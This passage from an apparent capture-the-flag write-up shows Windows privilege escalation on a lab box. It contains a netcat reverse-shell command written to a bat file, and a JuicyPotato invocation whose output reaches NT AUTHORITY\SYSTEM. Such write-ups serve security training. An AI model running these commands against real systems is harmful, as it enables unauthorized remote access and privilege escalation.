 I found we can use JuicyPotato for Token Impersonation attack from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges)

First I downloaded [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases) to my machine

We need to get a normal shell instead of PowerShell. Get nc.exe [here](https://github.com/int0x33/nc.exe/blob/master/nc.exe).
Upload it to the box and get revere shell.
![0b1e93ff993461f38b67e3d0603bb1d4.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jeeves/b919770667a244718a6e0494dab040c8.png)

I created a bat file that executes nc and give me another shell.
```
C:\Users\kohsuke\Downloads>echo C:\Users\kohsuke\Downloads\nc.exe -e cmd.exe 10.10.14.12 3333 > rev.bat
echo C:\Users\kohsuke\Downloads\nc.exe -e cmd.exe 10.10.14.12 3333 > rev.bat
```


Then I ran `JuicyPotato` and it executes `bat` file 
```
C:\Users\kohsuke\Downloads>juicypotato.exe -p C:\Users\kohsuke\Downloads\rev.bat -l 3333 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
juicypotato.exe -p C:\Users\kohsuke\Downloads\rev.bat -l 3333 -t * -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
Testing {e60687f7-01a1-40aa-86ac-db1cbf673334} 3333
......
[+] authresult 0
{e60687f7-01a1-40aa-86ac-db1cbf673334};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK

C:\Users\kohsuke\Downloads>
```

It worked and I got shell as `nt authority\system`<br/>
![02dc22dc81065e2fe4c3984bd1e8b881.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jeeves/111e7f1413c14d8589badc5db005068e.png)
